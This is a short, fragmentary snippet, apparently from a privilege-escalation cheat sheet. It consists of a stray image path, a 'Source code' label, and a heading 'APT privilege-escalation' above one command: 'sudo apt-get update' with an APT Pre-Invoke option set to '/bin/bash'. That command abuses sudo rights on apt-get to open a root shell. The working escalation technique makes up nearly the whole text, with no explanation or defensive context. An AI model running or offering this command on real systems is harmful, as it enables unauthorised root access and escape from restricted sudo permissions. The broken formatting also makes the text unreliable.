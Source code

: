 

   APT   -privilege-escalation ::

            sudo apt-get update -o APT::Update::Pre-Invoke::= /bin/bash


